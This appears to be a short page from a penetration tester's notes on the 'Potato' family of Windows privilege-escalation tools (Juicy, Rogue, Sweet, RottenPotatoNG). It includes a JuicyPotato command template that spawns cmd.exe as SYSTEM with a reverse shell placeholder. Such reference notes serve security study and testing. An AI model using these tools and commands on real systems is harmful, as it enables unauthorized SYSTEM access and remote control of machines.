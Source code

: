 # Potato

<div class="row row-cols-lg-2"><div>

[Potatoes](https://jlajara.gitlab.io/Potatoes_Windows_Privesc) 🥔 is a set of potatoes that can be used to escalate privileges from Windows Service Accounts to NT AUTHORITY/SYSTEM.

* [SweetPotato](https://github.com/CCob/SweetPotato) <small>(1.6k ⭐, 2022 🪦)</small>
* [Juicy Potato](https://github.com/ohpe/juicy-potato) <small>(2.4k ⭐, 2021 🪦)</small>
* [RoguePotato](https://github.com/antonioCoco/RoguePotato) <small>(1.0k ⭐, 2020 🪦)</small>
* [RottenPotatoNG](https://github.com/breenmachine/RottenPotatoNG) <small>(0.9k ⭐, 2017 🪦)</small>
* ...

Juicy and Rogue don't work on all versions of Windows.
</div><div>
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

```ps
PS> # You can pick any port for -l. It's for DCOM traffic. 
PS> .\JuicyPotato.exe -l any_port -p c:\windows\system32\cmd.exe -a "/c <reverse shell command>" -t *
````
</div><div>
</div></div>